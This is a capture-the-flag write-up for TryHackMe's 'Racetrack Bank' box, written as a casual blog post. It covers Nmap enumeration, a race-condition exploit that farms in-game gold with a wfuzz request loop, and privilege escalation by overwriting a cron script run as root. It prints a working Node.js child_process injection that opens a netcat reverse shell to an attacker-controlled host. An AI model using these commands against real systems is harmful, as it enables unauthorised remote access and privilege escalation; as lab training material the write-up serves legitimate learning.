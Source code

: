 ```yaml
---
layout: post
title: Racetrack Bank | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-14 05:00:53 +0000'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```

- [Racetrack Bank](#racetrack-bank)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Reverse shell](#reverse-shell)
- [Flags](#flags)

<!-- toc -->


### Racetrack Bank
Hallå gubbar, this one is a lil bit difficult but hey we can do it specially if you want to learn more and practice on race condition vulnerabilities ... check the box  Racetrack Bank

### Enumeration

![alt text](https://thelastvvv.github.io/images/posts/2/scanbank.png "THM")

After we scan using Nmap we found 80 port open = http

```sh
http:/ip-box:80
```


![alt text](https://thelastvvv.github.io/images/posts/2/main.png "THM")


then it will redirect you to the login page
we found other 2 pages 
give gold ( to send gold to other users) / purchase (buy premium ) 


![alt text](https://thelastvvv.github.io/images/posts/2/buyme.png "THM")

![alt text](https://thelastvvv.github.io/images/posts/2/givegold.png "THM")



We also have 1 gold ....

Nothing else so what we need to do is find out the premium features but how is that ?

Drom the description and title of the box is possible to say that there's race conditions vulnerabilities 

so let fuzz it!!

### Exploitation

How ?
we need to fuzz and send multi requests to transfer gold from an account to an other 
Result:
Farming gold 

What we need ?

1. Creating accounts
2. Cookies id tag
3. Loop requests
4. Buy premium


i will try to make it easy for you 

1. create account ( test22 ) also create an other account in private tab (test99)

we need to intercept the gold transfer request using BURPYYY...


![alt text](https://thelastvvv.github.io/images/posts/2/burp.png "THM")

2. Now we got cookie id tag (request)

3. Loop requests in this case we will use wfuzz 

but first create txt file and each line should have number 1 ( 1 gold remember ) and you should have 20 000 line 

" Dont worry i said i will make it easy for you "

[https://pastebin.com/MxnwWnWG](https://pastebin.com/MxnwWnWG)


 command :
 
```sh
wfuzz -w /root/Desktop/gold.txt -u http://Box-ip/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "Cookie ID" -d "user=test99&amount=FUZZ"
```


| Options      | Meaning       |
| ------------- |:-------------:|
|-w| wordlist|
|-u| url|
|-H |header|
|-b |cookie|
|-d |postdata |

So don't waste too much time going back from an account t oan other 

just once you reach 600 gold change 1 gold to 6 gold in text file 

also send gold from account test22 to test99 

also send back 600 from test99 without fuzzing it 

then go back to test22 and fuzz it again 

4. so in 3 steps you will have more 10k gold enough to buy premium !


![alt text](https://thelastvvv.github.io/images/posts/2/10kgold.png "THM")

### Reverse shell

To be frank i tried many injections command but nothing worked until checked source code (node.js)

so just google node.js reverse shell


```sh
http://Ip-box/premuimfeatures.html?ans=require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP PORT >/tmp/f')
```

voila!



![alt text](https://thelastvvv.github.io/images/posts/2/shell.png "THM")

### Flags

we got the user flag :
```sh
~$ cat  user.txt
```
Now we need to privesc to root but i'm lazy specially late nights so just searched for backup files and we find 
```sh/cleanup/```file called ```cleanupscript.sh``` that runs every minute.

So we can optin to get second reverse shell as root or copy and output root flag
 
so you either 
```sh 
rm cleanupscript.sh
```  
or
```sh
mv cleanupscript.sh > cleanupscript.sh.backup ( check dogcat room similar)
```

then
```sh
echo 'cat /root/root.txt > /home/brian/root_flag.txt' > cleanupscript.sh
```
```sh
chmod 777 cleanupscript.sh
```

Run it and wait 1 min then check for for output


![alt text](https://thelastvvv.github.io/images/posts/2/rootflag.png "THM")

See you next time ......

